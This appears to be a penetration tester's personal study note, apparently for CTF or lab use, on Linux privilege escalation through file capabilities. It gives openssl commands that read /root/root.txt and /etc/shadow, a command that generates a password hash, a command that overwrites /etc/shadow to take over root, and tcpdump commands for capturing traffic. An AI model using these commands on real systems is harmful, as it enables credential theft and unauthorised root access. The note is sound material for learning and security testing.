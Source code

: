 ```yaml
---
tags:
  - PostExploitation
  - OperatingSystems
  - Linux
---
```


[Linux Privilege Escalation using Capabilities - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

![[2b5171cc7bf44b8996e85892d1c26c35 1.png]]


# Guide

# OpenSSL

See [[OpenSSL]]
Capability `ep`, 

### Read

```
./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64
base64 -d root.txt.b64
```
```

./openssl enc -base64 -in /etc/shadow -out ./shadow.b64
base64 -d shadow.b64 > shadow
```

### Write

```
openssl passwd -1 -salt root rick  #Makes a password
```

Edit shadow with these creds 

```
./openssl enc -in shadow -out /etc/shadow
```


# tcpdump

See [[TCPDump|TCPDump]]

Run:

```
tcpdump -D
```

Against any interfaces which look unusual:

```
timeout 150 tcpdump -w cap.pcap -i veth1665bcd
```
